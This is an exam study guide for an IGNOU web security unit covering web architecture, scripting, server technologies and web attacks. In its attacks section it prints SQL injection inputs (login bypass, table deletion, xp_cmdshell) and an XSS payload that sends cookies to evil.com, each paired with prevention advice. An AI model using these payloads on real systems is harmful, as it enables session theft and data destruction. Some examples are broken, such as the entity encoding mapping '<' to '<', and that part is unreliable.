



# MSEI-023 CYBER SECURITY - UNIT 3: WEB SECURITY

**Block 3: Web Technology (Units 1-4)**  
**Subject: MSEI-023 Cyber Security**  
**Programme: PGDIS/MSCIS (IGNOU)**

---

## UNIT OVERVIEW

This unit covers **Block 3** of the MSEI-023 syllabus comprising four textbook units:
1. **Unit 1: Introduction to Web Architecture** (Medium Priority - 3 occurrences)
2. **Unit 2: Client-Side Scripts** (High Priority - XSS 6 occurrences)
3. **Unit 3: Server-Side Scripts** (High Priority - Extended/Base Services 5 occurrences, 3 exact 10-mark repeats)
4. **Unit 4: Attacks on Web Applications** (Highest Priority - SQLi 6, XSS/XSRF 6 occurrences)

**Exam Weightage**: Web Security is heavily tested. Extended & Base Services asked identically 3 times (10 marks). SQL Injection 4 exact repeats (5 marks). XSS/XSRF asked 2 times as 10-mark questions with prevention.

---

## TOPIC 1: WEB ARCHITECTURE (Textbook Unit 1)

### 1.1 Purpose & Principles of Web Architecture (Textbook §1.2)

| Aspect | Description (Textbook) |
|--------|------------------------|
| **Basic Purposes** | Structure for Internet based on ease of use; plan for organic growth; provide means of sharing information (music, messages, poetry, business transactions); security in transactions & privacy for e-commerce |
| **Basic Principles** | Rules unanimously accepted & followed; change requests in free/transparent manner (RFC process); Freedom of expression; Cerf & Kahn technical principles: minimalism, autonomy (no internal changes to interconnect), best effort service, stateless routers, decentralized control |
| **Unique Features** | Packet switching (vs circuit switching) - data in "bursts", alternate routes; Gateway/Router connecting heterogeneous networks; Global addressing scheme (domain names: .com, .edu, .in + host/sub-domain) |

### 1.2 Internet Governance (Textbook §1.3)

| Body | Role (Textbook) |
|------|-----------------|
| **ISOC (Internet Society)** | Overall body governing the Internet |
| **IETF (Internet Engineering Task Force)** | Principal body for Internet standards and designs |
| **IAB (Internet Architecture Board)** | Committee of IETF; advisory to ISOC; 13 members (6 nominated yearly from IETF for 2-year term); IETF chair + IRTF chair (ex-officio) + volunteer Executive Director |
| **IESG (Internet Engineering Steering Group)** | Detailed standards work; specialists from IETF |
| **IRTF (Internet Research Task Force)** | Research-oriented; chaired by ex-officio IAB member |

**Standards Process** (Textbook §1.3.2): Internet-Draft → Comments → Edit → IESG Review → RFC Editor → Published RFC

**IAB Responsibilities**: Long-range planning; co-ordination among IETF areas; architectural consistency for new working groups; sponsors/organizes IRTF; appellate board for IESG actions; advisory to ISOC; approval of appointments

### 1.3 Basic Web Architecture: Two-Tier vs Three-Tier (⭐⭐⭐ HIGH PRIORITY - Jun 2024 10-mark with diagram)

#### Two-Tier Architecture (Textbook §1.4.1)

- **Client**: Browser (IE, Mozilla, Opera, Netscape, Chrome) - displays information
- **Server**: IIS (Microsoft), Apache/Tomcat (Java) - provides information
- **Storage**: Server-side or connected storage; client-side cookies/session/temporary transaction info

#### Three-Tier Architecture (CGI Extension) (Textbook §1.4.1)

- **CGI (Common Gateway Interface)**: Standards for dynamic document writing, data input to program, output result usage. Not a language - allows C, C++, Bourne shell, C Shell, Tcl, Perl
- **Flow**: Client → Server → CGI Program → Server → Client

### 1.4 Key Web Standards (Textbook §1.4)

| Standard | Purpose | Key Points (Textbook) |
|----------|---------|----------------------|
| **HTML** | Document encoding | Evolved from SGML (1986); HTML 2.0 (1995), 3.0/4.0 (1997), 5.0 draft (2008); paired tags `<head>`, `<body>`, `<p>`, `<a>`; CSS for styling; HTML5 doctype: `<!doctype html>` |
| **URI/URL** | Resource identification | URL ⊂ URI; URI = URL (location) or URN (name); URL defines: protocol, host, port, path |
| **HTTP** | Data transfer | Combines FTP + SMTP; single TCP connection on port 80; stateless (no session retention); Client sends request, Server sends response |

### 1.5 Related Transfer Protocols (Textbook §1.5)

| Protocol | Port | Purpose | Key Features (Textbook) |
|----------|------|---------|------------------------|
| **FTP** | 20 (data), 21 (control) | File transfer | Two connections; Stream/Block/Compressed modes; Stream = default (continuous bytes) |
| **SMTP** | 25 | Email sending | MUA→MSA→MTA→MDA→MUA; Commands: HELO, MAIL FROM, RCPT TO, DATA, QUIT, RSET, VRFY, NOOP, TURN, EXPN, HELP |
| **MIME** | — | Non-ASCII email | 5 headers: Version, Content-Type, Content-Transfer-Encoding, Content-ID, Content-Description |
| **SSL/TLS** | 443 (HTTPS) | Secure communication | Handshake: ClientHello → ServerHello+Cert → ClientKeyExchange → Finished; Symmetric encryption after asymmetric handshake |

### 1.6 Web Architecture Extensions (Textbook §1.6)

| Technology | Type | Description (Textbook) |
|------------|------|------------------------|
| **CGI** | Interface | Dynamic content via external programs; allows C, C++, Perl, etc. |
| **Java Technologies** | Server/Client | Servlets (server-side), JSP (HTML + `<% java %>`), Swing (GUI), JDBC (DB API) |
| **PHP** | Server-side | LAMP/WAMP/MAMP; embedded in HTML; most web servers/platforms/DBs |
| **VBScript** | Client/Server | Microsoft; IE/IIS/WSH; `<% VBScript %>` in ASP |
| **ASP.NET** | Framework | CLR-based; .aspx pages; Razor syntax (`@code`); WebMatrix for rapid dev |
| **HTTP Extension / HTTP-NG / SMUX** | Protocol | HTTP-NG for HTTP 1.1 performance; SMUX = multiplexing transport for multiple protocols over same TCP |

### 1.7 Important Exam Questions

| Marks | Question | Frequency |
|-------|----------|-----------|
| 5-mark | Two-tier vs Three-tier architecture with diagram | Jun 2024 ⭐⭐⭐ |
| 5-mark | Client/Server architecture notes | Jun 2023, Dec 2023 |
| 5-mark | Web/Client-Server architecture | Various |
| 5-mark | Scripting language role | Jun 2024 |
| 5-mark | HTTP methods / status codes | Various |
| 5-mark | Why Web Architecture? / Basic Principles | Check Your Progress |
| 5-mark | Distinguish IESG vs IAB roles | Check Your Progress |
| 5-mark | FTP connections / SMTP working / TLS handshake | Check Your Progress |

---

## TOPIC 2: CLIENT-SIDE SCRIPTS (Textbook Unit 2) (⭐⭐⭐ HIGH PRIORITY - XSS Foundation)

### 2.1 Browser Architecture (Textbook §2.2.2)

**8 Major Sub-systems** (Textbook):
1. **User Interface** - Address bar, bookmarks, buttons
2. **Browser Engine** - High-level interface to rendering engine
3. **Rendering Engine** - Parse HTML/CSS → DOM Tree → Render Tree → Layout → Paint
4. **Networking** - HTTP requests, cache
5. **Scripting Interpreter** - JavaScript/VBScript engine (V8, SpiderMonkey, Chakra)
6. **XML Parser** - Parse XML → DOM
7. **Display Backend** - Drawing primitives, fonts, widgets
8. **Data Persistence** - Cookies, localStorage, sessionStorage, cache, bookmarks

**Rendering Flow** (Textbook §2.2.3):
```
HTML → DOM Tree → +CSS → Render Tree → Layout → Paint
```

**Firefox/Gecko Extra**: Content Sink, Rule Tree, Style Context Tree, Frame Tree (Render Tree), Reflow (Layout)

### 2.2 Writing Client-Side Scripts (Textbook §2.3)

**Purposes** (Textbook):
- Data input in forms
- Validation check of input data
- Event handling
- Utilization of properties/values of other objects

**SCRIPT Element** (Textbook §2.3.1):
```html
<!ELEMENT script - - CDATA>
<!ATTLIST script
    type CDATA #IMPLIED -- media type for script language --
    language CDATA #IMPLIED -- predefined script language name --
    src %URL #IMPLIED -- URL for an external script --
    defer (defer) #IMPLIED --- user may defer execution of script -->
```
- **type**: MIME type (text/javascript, text/vbscript) - preferred over language
- **language**: Deprecated (use type)
- **src**: External script URL (if present, ignore content)
- **defer**: Delay execution
- **CDATA**: Only `</script>` recognized as end delimiter (use `</` in strings)

**META for Default Scripting Language** (Textbook §2.3.2):
```html
<META HTTP-EQUIV="Content-Script-Type" CONTENT="text/vbscript">
```
Last META element determines language; default = JavaScript if none specified

**NOSCRIPT** (Textbook §2.3.3): Content rendered only if browser doesn't support scripts

### 2.3 VBScript (Textbook §2.4.1)

**Data Types** (Variant subtypes):
| Subtype | Description |
|---------|-------------|
| Empty | Uninitialized (0 for numeric, "" for string) |
| Null | Intentionally no valid data |
| Boolean | True/False |
| Byte | 0-255 |
| Integer | -32,768 to 32,767 |
| Long | -2,147,483,648 to 2,147,483,647 |
| Single | Single-precision floating point |
| Double | Double-precision floating point |
| Currency | -922,337,203,685,477.5808 to 922,337,203,685,477.5807 |
| Date | Jan 1, 100 to Dec 31, 9999 |
| String | Variable-length up to ~2 billion chars |
| Object | Object reference |
| Error | Error number |

**Key Keywords** (Textbook):
- Array: Array, Dim, Erase, IsArray, LBound, Private, Public, ReDim, UBound
- Assignment: Set
- Comments: ' or Rem
- Constants: Empty, False, Nothing, Null, True
- Control Flow: Do...Loop, For...Next, For Each...Next, If...Then...Else, Select Case, While...Wend, With
- Declarations: Class, Const, Dim, Function, Private, Property Get/Let/Set, Public, ReDim, Sub
- Error: Err, On Error

**Event Handling** (Textbook):
```html
<INPUT NAME=txtBox1 size=50>
<SCRIPT FOR="txtBox1" EVENT="onchange" LANGUAGE="VBScript">
  Sub txtBox1_onchange()
    If txtBox1.value = "India" Then buttonSubmit.enabled = True Else buttonSubmit.enabled = False
  End Sub
</SCRIPT>
```

### 2.4 JavaScript (Textbook §2.4.2) (⭐⭐⭐ CRITICAL FOR XSS UNDERSTANDING)

**Characteristics**: Prototype-based, loosely typed, C-like syntax, event-driven

**Core Language Elements** (Textbook):
| Element | Description |
|---------|-------------|
| break | Terminate current loop |
| catch | Statements for error in try block |
| @cc_on | Conditional compilation |
| comment | Ignored by parser |
| continue | Next iteration |
| debugger | Start debugger |
| do...while | Execute once, repeat until false |
| for | Loop with condition |
| for...in | Loop through object/array elements |
| function | Declare function |
| @if | Conditional compilation |
| if...else | Conditional execution |
| Labeled | Identifier for statement |
| return | Exit function with value |
| @set | Variables for conditional compilation |
| switch | Match expression to label |
| this | Current object |
| throw | Generate error for try...catch |
| try | Error handling |
| var | Declare variable |
| while | Execute until condition false |
| with | Default object for statement |

**Intrinsic Event Handlers** (Textbook - Critical for XSS):
| Event | Trigger |
|-------|---------|
| onload | Browser finishes loading window/frames |
| onunload | Exit document |
| onclick | Click on buttons, checkboxes, radio, links, reset, submit |
| onmouseover | Mouse moves onto anchor |
| onmouseout | Mouse moves out of anchor |
| onfocus | Field gains focus (tab/click) |
| onblur | Field loses focus |
| onsubmit | User submits form |
| onselect | User selects text in field |
| onchange | Field loses focus + value modified |

**XSS-Relevant Example** (Textbook):
```html
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<SCRIPT LANGUAGE="JAVASCRIPT">
function showpassword(form) {
  pd = form.elements[1].value;
  alert('You entered password: ' + pd);
}
</SCRIPT></head>
<body><FORM Name="Login">
NAME: <INPUT Type="Text" Name="UserID" Value="">
Password: <INPUT Type="Password" Name="Password" Value=""><br><br>
<INPUT Type="Button" Name="SubmitButton" Value="Submit" onClick="showpassword(form)">
</FORM></body></html>
```

### 2.5 AJAX (Textbook)
- **Full Form**: Asynchronous JavaScript and XML
- **Key**: `XMLHttpRequest` object
- **Benefits**: Requests without reload; receive data without reload; partial page updates; faster, responsive UX
- **Formats**: XML, HTML, JSON, text

### 2.6 Important Exam Questions

| Marks | Question | Frequency |
|-------|----------|-----------|
| 5-mark | Browser sub-systems (8) / Rendering engine flow | Various |
| 5-mark | SCRIPT element specification | Various |
| 5-mark | JavaScript/VBScript examples | Various |
| 5-mark | Random background color code / Evening dimming / Image sizing | Check Your Progress |
| 5-mark | Password capture via client-side script | Textbook example |

---

## TOPIC 3: SERVER-SIDE SCRIPTS (Textbook Unit 3) (⭐⭐⭐ HIGHEST PRIORITY - Extended/Base Services)

### 3.1 Generic Web Server Architecture (Textbook §3.2.1) (⭐⭐⭐ HIGH PRIORITY)

**7 Sub-systems** (Textbook Fig. 1):


| Sub-system | Function (Textbook) |
|------------|---------------------|
| **Reception** | Receives HTTP request, understands browser requirements, handles multiple requests, initial interpretation |
| **Request Analyzer** | Builds internal request representation, translates address to local server path |
| **Access Control** | Checks authentication (user ID, password) & authorization (grants, privileges) |
| **Resource Handler** | Handles request per resource type (file vs program to execute) |
| **Transaction Log** | Writes log of all transactions (requests & responses) |
| **Utility** | Functions required by sub-systems |
| **OS Abstraction Layer** | Portability across OS/platforms |

**Apache Mapping** (Textbook Fig. 2):
- Core = Reception
- Translation = Request Analyzer
- Authentication + Authorization = Access Control
- MIME Type + Response = Resource Handler
- Logging = Transaction Log

### 3.2 Web Server Configuration (Textbook §3.2.2)

**IIS (Internet Information Services)**:
- Part of Windows, not selected by default
- Install: Control Panel → Add/Remove Programs → Add/Remove Windows Components → Check IIS
- IIS 7.0 on Server 2008: Server Manager → Add Roles → Web Server (IIS) → Select IIS 6 Metabase Compatibility
- ASP.NET 2.0 registration: `aspnet_regiis -i -enable` in `%WinDir%\Microsoft.NET\Framework\v2.0.50727`
- .NET 3.0 mappings: `ServiceModelReg.exe -r` in `%WinDir%\Microsoft.NET\Framework\v3.0\Windows Communication Foundation`

**Apache Tomcat**:
1. Install Java JDK, set `JAVA_HOME` (base JDK dir, not bin)
2. Download/unpack Tomcat from http://tomcat.apache.org/download-60.cgi
3. Edit `server.xml`: Change Connector port from 8080 → 80
4. Edit `context.xml`: `<Context reloadable="true" privileged="true">`
5. Edit `web.xml`: Uncomment invoker servlet & servlet-mapping for `/servlet/*`
6. Enable directory listings: `initparam` for listings → `true`
7. Test: `startup.bat` → http://localhost/
8. CLASSPATH: current dir (`.`), servlet.jar, jsp-api.jar, el-api.jar, dev dir

### 3.3 JavaServer Pages (JSP) (Textbook §3.3)

**JSP Constructs** (Textbook §3.3.1):
| Type | Syntax | Purpose |
|------|--------|---------|
| **Expression** | `<%= expression %>` | Evaluated & inserted in output |
| **Scriptlet** | `<% code %>` | Inserted in servlet's service method |
| **Declaration** | `<%! code %>` | Class-level (outside methods) |

**Directives** (Textbook):
```jsp
<%@ page import="java.util.*" contentType="text/html" session="true" errorPage="error.jsp" %>
<%@ include file="header.jsp" %>
```
- Page: Import classes, customize servlet superclass
- Include: Insert file at translation time

**Actions** (Textbook):
| Action | Syntax | Purpose |
|--------|--------|---------|
| `jsp:include` | `<jsp:include page="url" flush="true"/>` | Include at request time |
| `jsp:useBean` | `<jsp:useBean id="name" class="pkg.Class" scope="page|request|session|application"/>` | Find/create JavaBean |
| `jsp:setProperty` | `<jsp:setProperty name="bean" property="*"/>` | Set bean properties |
| `jsp:getProperty` | `<jsp:getProperty name="bean" property="prop"/>` | Output bean property |
| `jsp:forward` | `<jsp:forward page="url"/>` | Forward request |
| `jsp:plugin` | `<jsp:plugin>...</jsp:plugin>` | Generate OBJECT/EMBED for applet |

**Implicit Objects**: `request`, `response`, `out`, `session`, `application`, `config`, `pageContext`, `page`

### 3.4 ASP (Active Server Pages) (Textbook §3.4)

- **Extension**: `.asp`
- **Delimiters**: `<% VBScript code %>`
- **Primary Language**: VBScript (default), JScript
- **Directives**: `<%@ LANGUAGE="VBScript" %>`, `<%@ ENABLESESSIONSTATE %>`, `<%@ CODEPAGE %>`, `<%@ LCID %>`
- **Output Directive**: `<%= expression %>` ≡ `Response.Write`
- **Processing Directive**: `<%@ keyword %>` (must be first line)

### 3.5 ASP.NET (Textbook §3.5)

- **Framework**: .NET CLR-based; C#, VB.NET, F#
- **Extensions**: `.aspx` (page), `.aspx.cs/.vb` (code-behind), `.ascx` (user control)
- **WebMatrix**: Free IDE with IIS Express, Razor syntax (`@code`), integrated DB tools
- **Razor Syntax**:
  ```cshtml
  @{ var total = 7; var msg = "Hello"; }
  <p>Total: @total</p>
  @if (IsPost) { var n1 = Request["text1"].AsInt(); ... }
  ```
- **User Controls** (Code Reuse): `.ascx` with `@ Control` directive; Register: `<%@ Register TagPrefix="Acme" TagName="Login" Src="~/Controls/Login.ascx" %>`; Use: `<Acme:Login id="MyLogin" runat="server"/>`
- **Data Access**: `SqlConnection` → `SqlCommand` → `SqlDataReader` (best perf) or `SqlDataAdapter` → `DataSet` → `DataGrid`

### 3.6 Extended & Base Services of Server Programs (⭐⭐⭐ HIGHEST PRIORITY - 3 exact 10-mark repeats: Dec 21, Jun 21, Dec 23)

> **Note**: This topic is **not explicitly covered in the textbook** under these terms. It is a middleware/application server architecture concept that appears repeatedly in exams. The classification below is based on standard middleware architecture and PYQ analysis.

#### Base Services (Core OS Services provided to server programs)
| Service | Description |
|---------|-------------|
| **Process Management** | Creation, scheduling, termination, inter-process communication (IPC) |
| **Memory Management** | Allocation, virtual memory, protection, shared memory |
| **File System** | Read/write, permissions, locking, directory services |
| **I/O Management** | Device drivers, buffering, spooling |
| **Network Communication** | Socket API, TCP/IP protocol stack, name resolution (DNS) |
| **Security** | Authentication, authorization, auditing, encryption libraries |

#### Extended Services (Middleware/Application Server Services)
| Service | Description |
|---------|-------------|
| **Transaction Management** | ACID properties, distributed transactions (Two-Phase Commit - 2PC) |
| **Connection Pooling** | Reuse database connections, reduce overhead |
| **Load Balancing** | Distribute requests across server cluster |
| **Failover / High Availability** | Automatic redirect on server failure |
| **Clustering** | Multiple servers act as single system |
| **Session Management** | Stateful sessions in stateless HTTP |
| **Caching** | In-memory (Redis, Memcached) for frequently accessed data |
| **Message Queuing** | Asynchronous communication (JMS, MQ, RabbitMQ) |
| **Directory/Naming Services** | JNDI, LDAP for resource lookup |
| **Security Extensions** | SSO, delegation, fine-grained access control (RBAC/ABAC) |

**Exam Answer Structure for 10 Marks**:
1. Define Base Services (OS-level) - list 6 with brief description
2. Define Extended Services (Middleware-level) - list 10 with brief description
3. Explain the difference: Base = OS kernel services; Extended = Application server/middleware value-add
4. Mention examples: Java EE / .NET Framework provide extended services on top of OS base services

### 3.7 Important Exam Questions

| Marks | Question | Frequency |
|-------|----------|-----------|
| 5-mark | Web server generic sub-systems (7) | Various |
| 5-mark | JSP constructs (Expression, Scriptlet, Declaration) / Directives / Actions | Various |
| 5-mark | Internal working of web server | Dec 2022 |
| 5-mark | Primary scripting language for ASP | Check Your Progress |
| 10-mark | **Explain Extended & Base Services of Server Programs** | Dec 21, Jun 21, Dec 23 ⭐⭐⭐⭐⭐ |
| 10-mark | Three-tier vs Two-tier with diagram | Jun 2024 |
| 5-mark | AsInt method usage / SqlConnection vs SqlDataAdapter | Check Your Progress |

---

## TOPIC 4: ATTACKS ON WEB APPLICATIONS (Textbook Unit 4) (⭐⭐⭐ HIGHEST PRIORITY)

### 4.1 Web Application Attack Categories (Textbook §4.2)

| Category | Description |
|----------|-------------|
| **Unvalidated Input** | Input not checked for malicious content |
| **Broken Access Control** | Insufficient restrictions on authenticated users |
| **Broken Account/Session Management** | Session fixation, hijacking, weak session IDs |
| **Cross-Site Scripting Flaws** | XSS - stored, reflected, DOM-based |
| **Buffer Overflows** | Stack/heap overflow via unchecked input |
| **Injection Flaws** | SQLi, LDAPi, XPath, OS Command Injection |
| **Error Handling Problems** | Stack traces, info leakage to users |
| **Insecure Storage/Use of Cryptography** | Weak algorithms, hard-coded keys |
| **Denial of Service** | Resource exhaustion |
| **Insecure Configuration Management** | Default creds, unnecessary features, verbose errors |

### 4.2 CWE/SANS Top 25 Threats (2011) (Textbook §4.2.1) (⭐⭐⭐ CRITICAL FOR EXAM)

| Rank | Score | Name | Key Details |
|------|-------|------|-------------|
| **[1]** | 93.8 | **Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')** | High prevalence, Low remediation, Often, Data loss/Security bypass, Easy detection, High awareness |
| **[2]** | 83.3 | **Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')** | Medium prevalence, Medium remediation, Often, Code execution, Easy detection, High awareness |
| **[3]** | 79.0 | **Buffer Copy without Checking Size of Input ('Classic Buffer Overflow')** | High prevalence, Low remediation, Often, Code execution/DoS/Data loss, Easy detection, High awareness |
| **[4]** | 77.7 | **Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')** | High prevalence, Low remediation, Often, Code execution/Security bypass, Easy detection, High awareness |
| **[5]** | 76.9 | **Missing Authentication for Critical Function** | Common, Low-High remediation, Sometimes, Security bypass, Moderate detection, High awareness |
| **[6]** | 76.8 | **Missing Authorization** | High prevalence, Low-Medium remediation, Often, Security bypass, Moderate detection, High awareness |
| **[7]** | 75.0 | **Use of Hard-coded Credentials** | Medium prevalence, Medium-High remediation, Rarely, Security bypass, Moderate detection, High awareness |
| **[8]** | 75.0 | **Missing Encryption of Sensitive Data** | High prevalence, Medium remediation, Sometimes, Data loss, Easy detection, High awareness |
| **[9]** | 74.0 | **Unrestricted Upload of File with Dangerous Type** | Common, Medium remediation, Sometimes, Code execution, Moderate detection, Medium awareness |
| **[10]** | 73.8 | **Reliance on Untrusted Inputs in a Security Decision** | High prevalence, High remediation, Often, Security bypass, Moderate detection, High awareness |
| **[11]** | 73.1 | **Execution with Unnecessary Privileges** | Medium prevalence, Medium remediation, Sometimes, Code execution, Moderate detection, High awareness |
| **[12]** | 70.1 | **Cross-Site Request Forgery (CSRF/XSRF)** | High prevalence, High remediation, Often, Data loss/Code execution, Moderate detection, Medium awareness |
| **[13]** | 69.3 | **Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')** | Widespread, Low remediation, Often, Code execution/Data loss/DoS, Easy detection, High awareness |
| **[14]** | 68.5 | **Download of Code Without Integrity Check** | Medium prevalence, Medium-High remediation, Rarely, Code execution, Moderate detection, Low awareness |
| **[15]** | 67.8 | **Incorrect Authorization** | High prevalence, Low-Medium remediation, Often, Security bypass, Moderate detection, High awareness |

### 4.3 SQL Injection Case Study (Textbook §4.3.1) (⭐⭐⭐)

**Vulnerable Code**:
```java
string userName = ctx.getAuthenticatedUserName();
string query = "SELECT * FROM items WHERE owner = '" + userName + "' AND itemname = '" + ItemName.Text + "'";
```

**Attack 1 - Authentication Bypass**: Input `name' OR 'a'='a` → Query becomes `SELECT * FROM items WHERE owner = 'wiley' AND itemname = 'name' OR 'a'='a'` → Always true → Returns all items

**Attack 2 - Data Deletion**: Input `name'; DELETE FROM items; --` → Two queries executed: SELECT + DELETE

**Attack 3 - Shell Command (MS SQL)**: Input `'; exec master..xp_cmdshell 'dir'--` → Executes `dir` command in shell

**Prevention** (Textbook):
- Whitelist input validation (accept only safe chars)
- Parameterized SQL statements (best - less maintenance, more guarantees)
- Avoid blacklisting (loopholes: unquoted fields, bypass escaped chars, stored procedures)
- Stored procedures help but not complete protection

### 4.4 Cross-Site Scripting (XSS) (Textbook §4.2.1 Rank 4) (⭐⭐⭐ HIGH PRIORITY - 6 PYQ)

**Mechanism** (Textbook): Combine stateless HTTP + data/script mixture in HTML + data passing between sites + diverse encoding + feature-rich browsers → Attacker injects JavaScript → Victim's browser executes as trusted origin

**Types** (Industry standard classification - not explicitly in textbook but essential for exam):
| Type | Description | Example |
|------|-------------|---------|
| **Stored (Persistent)** | Script saved in DB, served to all | Comment field, forum post |
| **Reflected (Non-persistent)** | Script in URL/params, reflected immediately | Search results, error pages |
| **DOM-based** | Client-side only, DOM manipulation | `document.write(location.hash)` |

**XSS Payload Examples**:
```html
<script>alert('XSS')</script>
<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>

```

**Prevention** (Textbook §4.5.2):
- Validate input: type, length, format, range
- Encode output: HTML entity encode (`<` → `<`, `>` → `>`, `"` → `"`)
- CSP: `Content-Security-Policy: script-src 'self'`
- HttpOnly Cookies: Prevent JS access to session cookies
- Framework auto-escaping (Razor, Jinja2, Thymeleaf)

### 4.5 Cross-Site Request Forgery (XSRF/CSRF) (Textbook §4.2.1 Rank 12) (⭐⭐⭐ HIGH PRIORITY - 6 PYQ)

**Mechanism** (Textbook): Attacker tricks user into activating request to target site → User unaware → Attacker masquerades as legitimate user → Gains user's access (especially admin)

```mermaid
sequenceDiagram
    User->>Bank: Login (session cookie set)
    User->>AttackerSite: Visits malicious page
    AttackerSite->>Bank: Auto-submits <form action="bank.com/transfer" method="POST">...
    Bank->>Bank: Processes request (cookie sent automatically)
```



**Types**:
- **GET-based**: ``
- **POST-based**: Auto-submit form via JavaScript

**Combined with XSS**: XSS worms (e.g., Facebook) often fed by CSRF

**Prevention** (Textbook §4.5.2):
- Anti-CSRF Tokens: Unique per-session token in forms; validated server-side
- SameSite Cookies: `Set-Cookie: session=id; SameSite=Strict|Lax`
- Referer Header Check: Validate `Referer`/`Origin`
- Double Submit Cookie: Token in cookie + hidden field; compare
- Custom Request Headers: Require `X-Requested-With: XMLHttpRequest` for AJAX

### 4.6 XSS vs XSRF Comparison (⭐⭐⭐ EXAM FAVORITE - 10-mark Jun 23, Dec 23)

| Aspect | XSS (Cross-Site Scripting) | XSRF (Cross-Site Request Forgery) |
|--------|---------------------------|-----------------------------------|
| **Mechanism** | Inject malicious script into trusted site | Trick user into submitting forged request |
| **Target** | User's browser executes attacker's script | User's authenticated session |
| **Requires** | Vulnerable input + output rendering | Authenticated session + predictable request |
| **Types** | Stored, Reflected, DOM-based | GET-based, POST-based |
| **Impact** | Session hijack, defacement, keylogging | Unauthorized actions (transfer, password change) |
| **Prevention** | Input validation, output encoding, CSP | Anti-CSRF tokens, SameSite cookies, Referer check |
| **Same-Origin Policy** | Bypassed (script runs in victim origin) | Exploited (browser sends cookies automatically) |
| **CWE Rank** | #4 (Score 77.7) | #12 (Score 70.1) |

### 4.7 Detection Methods (Textbook §4.4) (⭐⭐ MEDIUM)

| Type | Description (Textbook) | Limitation |
|------|------------------------|------------|
| **Static Detection** | Forensic examination of transaction logs (web server, app server, OS); analyze logs after attack | Not all requests fully logged; HTTP headers/POST data not fully recorded; easier to implement |
| **Dynamic Detection** | Detect attacks as they occur; Signature-based (match known attacks) or Anomaly-based (match traffic patterns) | Signature: easier, misses zero-day; Anomaly: catches zero-day, high false positives |

### 4.8 Prevention & Solutions (Microsoft SDL - Textbook §4.5) (⭐⭐⭐)

#### Architecture & Design Solutions (Textbook §4.5.1)
- **Threat Modeling**: STRIDE; rate threats by risk × damage
- **Secure Design Principles**: Focus on critical areas (input validation, authentication, authorization, config management, sensitive data, session management, crypto, parameter manipulation, exception management, auditing/logging)
- **Architecture Review**: Against deployment environment; perimeter networks, firewalls, remote app servers; use vulnerability categories

#### Development Solutions (Textbook §4.5.2)
| Area | Key Measures |
|------|-------------|
| **Secure Code** | Strong names (sign assemblies), CAS, structured exceptions, avoid canonicalization issues |
| **Exception Handling** | No stack traces/SQL fragments to users; fail securely; encode output for HTML errors |
| **Code Review** | FxCop for .NET guidelines; scan for hard-coded secrets; focus on SQLi/XSS; review CAS link demands/asserts |
| **Workstation Security** | IISLockdown, URLScan ISAPI filter, patches |
| **Least Privileged Code** | CAS to constrain resources; declarative security attributes |
| **File I/O Constraints** | Virtual directory only; specific directories |
| **SQLi Prevention** | Parameterized stored procedures; parameterized SQL (not concatenation); least privileged DB login |
| **XSS Prevention** | Validate input (type, length, format, range) + Encode output (form fields, query strings, cookies, DB data) |
| **Secrets Management** | Avoid storing; if needed, encrypt with DPAPI |
| **Unmanaged Code** | Validate lengths/bounds; custom permission demands; SuppressUnmanagedCodeSecurityAttribute caution |
| **Input Validation** | Constrain, reject, sanitize (whitelist > blacklist); regex for strings; .NET type system |
| **Forms Authentication** | Partition public/restricted; SSL for credentials/cookie; limit lifetime; HTTPS only; encrypt cookie; separate personalization cookie |

#### Administration Solutions (Textbook §4.5.3)
| Area | Key Measures |
|------|-------------|
| **Patch Management** | MBSA for missing patches; regular runs; backup before patches; test on test servers; security bulletins |
| **Config Security** | Encrypt `<processModel>`, `<identity>`, `<sessionState>` (Aspnetsetreg.exe); `customErrors mode="RemoteOnly"`; lock config with `<location>` + `allowOverride` |
| **Web Server Hardening** | Methodology; IISLockdown; hardened Machine.config; latest patches |
| **DB Server** | Auth mode, auditing; service packs; monitor OS/SQL patches |
